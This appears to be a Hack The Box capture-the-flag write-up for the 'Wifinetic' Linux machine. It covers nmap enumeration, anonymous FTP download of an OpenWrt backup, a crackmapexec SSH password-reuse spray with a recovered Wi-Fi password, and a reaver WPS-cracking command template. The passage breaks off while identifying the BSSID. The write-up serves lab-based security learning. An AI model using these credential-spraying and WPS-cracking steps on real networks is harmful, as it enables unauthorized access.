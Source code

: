 ```yaml
---
layout: post
title:  "Wifinetic"
date:   2025-06-01 22:00:00 -0400
categories: HTB-machine linux easy 
tags: HTB CTF writeup nmap ftp wifi aircrack
image:
    path: assets/img/htb/Wifinetic/Wifinetic.png
---
```


# Machine Information

Wifinetic is an easy difficulty Linux machine which presents an intriguing network challenge, focusing on wireless security and network monitoring. An exposed FTP service has anonymous authentication enabled which allows us to download available files. One of the file being an OpenWRT backup which contains Wireless Network configuration that discloses an Access Point password. The contents of shadow or passwd files further disclose usernames on the server. With this information, a password reuse attack can be carried out on the SSH service, allowing us to gain a foothold as the netadmin user. Using standard tools and with the provided wireless interface in monitoring mode, we can brute force the WPS PIN for the Access Point to obtain the pre-shared key ( PSK ). The pass phrase can be reused on SSH service to obtain root access on the server. 

# Writeup
### Enumeration
```
nmap -sCV -T5 10.129.229.90 

PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.183
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

As we can see, `Anonymous FTP login allowed`, so we connect to FTP with anonymous and get backup file.

Extract file by 
```bash
tar -xvf backup-OpenWrt-2023-07-26.tar
```

We can get plain password from wifi config, and get username from passwd. We need to find user who reuse the password.

```bash
sudo crackmapexec ssh 10.129.229.90 -u username.txt -p 'VeRyUniUqWiFIPasswrd1!'     
                                                                                     
SSH         10.129.229.90   22     10.129.229.90    [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9                                                                                    
SSH         10.129.229.90   22     10.129.229.90    [-] root:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] daemon:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] ftp:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] network:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] nobody:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] ntp:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] dnsmasq:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] logd:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [-] ubus:VeRyUniUqWiFIPasswrd1!
SSH         10.129.229.90   22     10.129.229.90    [+] netadmin:VeRyUniUqWiFIPasswrd1!  Linux - Shell access!
```

### User Flag
We connect to ssh and get user's flag.

### Root Flag

We will use `reaver` to crack WPA password with format: `reaver -i mon0 -b <BSSID> -c 1`

So we need to find `BSSID`

```
iwconfig
eth0      no wireless extensions.

wlan1     IEEE 802.11  ESSID:"OpenWrt"  
          Mode:Managed  Frequency:2.412 GHz  Access Point: 02:00:00:00:00:00   
          Bit Rate:5.5 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=-30 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:6   Missed beacon:0
```

BSSID is Access Point address.
